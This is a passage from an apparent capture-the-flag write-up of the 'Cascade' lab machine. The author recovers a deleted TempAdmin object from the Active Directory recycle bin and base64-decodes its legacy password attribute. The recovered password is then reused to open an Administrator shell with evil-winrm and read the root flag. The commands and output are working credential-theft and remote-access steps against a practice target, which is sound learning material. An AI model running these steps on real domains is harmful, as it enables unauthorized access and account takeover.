 Now that we have access to ArkSvc, we can utilize the AD recycling bin that we saw earlier. in a [blog post](https://www.poweradmin.com/blog/restoring-deleted-objects-from-active-directory-using-ad-recycle-bin/), we can see that is is rather easy to recover deleted objects from this place.

```
*Evil-WinRM* PS C:\Users\arksvc> Get-ADObject -filter 'isdeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects -property *
...
accountExpires                  : 9223372036854775807
badPasswordTime                 : 0
badPwdCount                     : 0
CanonicalName                   : cascade.local/Deleted Objects/TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
CN                              : TempAdmin
```

TempAdmin's password is again base64 encoded like before, so we can easily recover it.

```
# echo YmFDVDNyMWFOMDBkbGVz | base64 -d
baCT3r1aN00dles
```

Since we know that this password is the same as Administrator's, we can get an Administrator shell with `evil-winrm` and get the flag.

```
# evil-winrm -i cascade.htb -u Administrator -p baCT3r1aN00dles

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
60a036**************************
```
